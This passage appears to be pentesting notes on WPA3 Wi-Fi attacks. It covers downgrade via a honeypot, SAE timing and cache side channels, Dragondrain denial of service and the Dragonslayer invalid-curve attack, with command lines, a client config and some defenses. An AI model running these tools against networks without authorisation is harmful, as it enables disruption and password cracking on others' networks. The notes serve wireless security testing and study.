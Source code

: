<img src="./images/psksae.png" width="700"/>

Below is the PMF related beacon, PMF is set as required and capable, so the bits are set to 1.

<img src="./images/pmf.png" width="700"/>
 
**Defense**: Disable WPA3 transition mode and go for 2 separate networks with separate passphrase.

#### Security Group Downgrade Attack
Force a client to use a weak security group.  

**Steps**:
1. Host a WPA3 honeypot and wait for client to connect
2. When client connects, reject the commit message till the time client doesn't use the weak group
3. Once the client connects, capture the dragonfly handshake and crack it

--> Not working if weak security groups are not supported by the device.  

**Defense**: 

#### WPA3-SAE timing or cache password paritioning
- https://github.com/vanhoefm/dragonforce

#### Timing attack using weak group
Timing attacks against the SAE handshake if MODP group 22, 23, or 24 is used. Note that most WPA3 implementations by default do not enable these groups.

```
./dragontime -d wlan0 -c 1 -a 11:22:33:44:55:66 -g 27 -i 250 -t 750 -o measurements.txt
```

#### Denial of Service against WPA3-SAE
Test to which extend an Access Point is vulnerable to denial-of-service attacks against WPA3's SAE handshake. The Dragondrain tool forges Commit messages to cause a high CPU usage on the target.  
- https://github.com/vanhoefm/dragondrain-and-time 

```
./dragondrain -d wlan0 -a 01:02:03:04:05:06
```

#### WPA3-EAP - Invalid curve attack
- https://github.com/vanhoefm/dragonslayer

dragonslayer/client.conf
```
network={
	ssid="WPA3Corpo"
	identity="jdoe"

	key_mgmt=WPA-EAP
	eap=PWD
	password="unknown password"
}
```

 ```
 sudo ./dragonslayer-client.sh -i wlp2s0 -a 1
 ```
